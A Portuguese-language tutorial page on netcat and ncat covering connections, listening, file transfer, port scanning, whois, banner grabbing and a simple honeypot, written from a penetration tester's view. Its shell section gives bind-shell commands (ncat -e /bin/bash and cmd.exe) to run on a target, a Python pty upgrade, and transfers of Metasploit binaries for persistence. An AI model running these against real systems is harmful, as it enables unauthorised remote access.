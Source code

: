 ```yaml
---
id: netcat
title: netcat
---
```


O utilitário `nc` (ou netcat) é usado para quase tudo sob o sol envolvendo
soquetes de domínio TCP, UDP ou UNIX. Ele pode abrir conexões TCP, enviar
pacotes UDP, escutar em portas TCP e UDP arbitrárias, fazer varredura de portas
e lidar com IPv4 e IPv6. Ao contrário do `telnet`, o `nc` faz scripts bem e
separa as mensagens de erro no erro padrão, em vez de enviá-las para a saída
padrão, como o `telnet` faz com alguns.

Os usos comuns incluem:

- Proxies TCP simples;
- Clientes e servidores HTTP baseados em shell-script;
- Teste de daemon de rede;
- SOCKS ou HTTP ProxyCommand para SSH;
- E muito, muito mais...

---

## Conectando

Abaixo temos o uso básico do `nc`, utilizando por padrão o protocolo TCP:

```bash
nc 172.16.1.4 110
```

Em alguns casos procisamos de mais informação, por exemplo que a conexão foi
estabelecida e para isso utilizamos o modo verboso passando o argumento `-v`:

```bash
nc -v 172.16.1.4
```

Para efetuar conexões utilizando o protocolo UDP basta utilizar o argumento
`-u`:

```bash
nc -u 127.0.0.1 9000
```

## Escutando

É possível expor uma porta para conexão utilizando o `nc`, porém parece não ser
muito funcional se não utilizado para expor uma shell ou para transferir
arquivos, contudo esse modo pode ser útil para validar portas abertas no
firewall, onde exponho uma porta e verifico se o firewall permite acesso à ela.
Para expor essa porta no alvo utilizamos o argumento `-l`:

```bash
nc -vl 5050
```

Depois podemos utilizar o comando `netstat` para verificar o estado da porta no
sistema alvo:

```bash
netstat -nlpt
```  

Para portas UDP basta utilizar o argumento `-u`:

```bash
nc -vlu 9000
```

## Transferência de arquivo

A transferência de arquivo é muito importante porque o `nc` não possui a função
de expor uma shell, porém o pacote `ncat`, mantido pelo projeto do `nmap`,
possui essa função muito útil. Além disso em muitos momentos temos a necessidade
de subir binários gerados pelo `metasploit` com a intenção de persistir uma
shell ou até mesmo alguns scripts como o `linPEAS` para enumeração.

Para a transferência de arquivos uilizando o `nc` temos dois cenários, um onde o
servidor alvo espera a conexão e no outro caso onde o servidor alvo faz uma
conexão, abaixo teremos os dois exemplos.

### Alvo ← Atacante (Upload)

No servidor alvo:

```bash
nc -lv 5050 > ncat
```

No sistema do atacante:

```bash
nc -v 172.16.2.6 5050 < ncat
```

### Alvo → Atacante (Download)

No sistema do atacante:

```bash
nc -lv 5050 < ncat
```

No servidor alvo:

```bash
nc -v 172.16.2.5 > ncat
```

## Enviando `stdout` para Conexão

Nesse exemplo vamos enviar o output de algum comando via `ncat`.

```bash
nc -lv 5050 < <(cat /etc/os-release)
```

Quando fizermos a conexão na porta 5050 iremos receber a saída do comando
`cat /etc/os-release`:

```bash
$ nc -v 127.0.0.1 5050
Connection to 127.0.0.1 5050 port [tcp/*] succeeded!
PRETTY_NAME="Ubuntu 22.04.4 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.4 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

## Expondo Shell

Expondo shell no Linux:

```bash
ncat -vnlp 5050 -e /bin/bash
```

Expondo shell no Windows:

```bash
ncat -vnlp 5050 -e cmd.exe
```

:::info
Os dois comandos acima são um modelo de shell simples onde devem ser executadas
na máquina alvo.  
Note também que estamos utilizando o `ncat` ao invés do `nc`, sendo que o
primeiro possui mais funções.
:::

Após obter a shell com o `ncat`, podemos chamar um pseudo terminal usando
Python, onde irá melhorar considerávelmente a shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Escaneando Portas

Para escanear uma porta específica basta utilizar o argumento `-z`:

```bash
nc -vnz 172.16.1.5 22
```

Escaneando um range de portas:

```bash
nc -vnz 172.16.1.5 19-30
```

:::info
Será escaneado da porta 19 até a porta 30.
:::  

Podemos também especificar o *timeout* para cada porta com o argumento `-w`:

```bash
nc -vnz -w2 172.16.1.5 22
```

:::info
Será escaneado levando em consideração um *timeout* de 2 segundos (`-w2`).
:::

Escaneando portas UDP com o argumento `-u`:

```bash
nc -vnzu 172.16.1.5 22
```

## Whois

Com o `nc`também é capaz de fazer pesquisas de domínio diretamente no
registro.br:

```bash
echo "uol.com.br" | nc registro.br 43
```

:::caution
O **registro.br** aceita somentes domínios, ASNs e blocos de IPs brasileiros.  
Para verificação extrangeira utilize o **whois.internic.net**:

```bash
echo "domain google.com" | nc whois.internic.net 43
```

:::

## Banner Grabbing

### HTTP

```bash
$ nc -vn www.alvo.com 80
HEAD / HTTP/1.0
```

### FTP

```bash
$ nc -v 192.168.1.100 21
USER anonymous
PASS anonymous
```

:::info
Sempre teste com usuário `anonymous` e senha `anonymous`.  
Caso o login tenha sido aceito, será retornado o código `230 Login successful`.
:::

:::info
Servidor de teste:

**Domain:** ftp.dlptest.com  
**User:** dlpuser  
**Password:** rNrKYTX9g7z3RgJRmxWuGHbeu

[https://dlptest.com/ftp-test/](https://dlptest.com/ftp-test/)
:::

## Honeypot

Não é uma das melhores opções a criação de um *honeypot* utilizando `netcat`
porque existem outras ferramentas mais destinadas para esse fim, porém é prático
e simples, ainda mais em cenários de PoC.

Há duas opções, uma é somente deixar o `netcat`escutando em uma porta e gravar o
que ele recebe e a outra opção um pouco mais avançada é enviar um *banner*
informando uma versão de serviço falsa.

```bash
$ cat banner_ftp.txt
220 ProFTPD 1.3.4a Server (Ubuntu)

$ while true; do
    nc -vlnp 21 < banner_ftp.txt |& tee -a ftp_honeypot.log;
    echo $(date) |& tee -a ftp_honeypot.log;
done
```

:::info
O *banner* será enviado e todo `stderr` e `stdout` do netcat será enviado para o
arquivo `ftp_honeypot.log` e em seguida a data e hora atual será também gravada.
:::
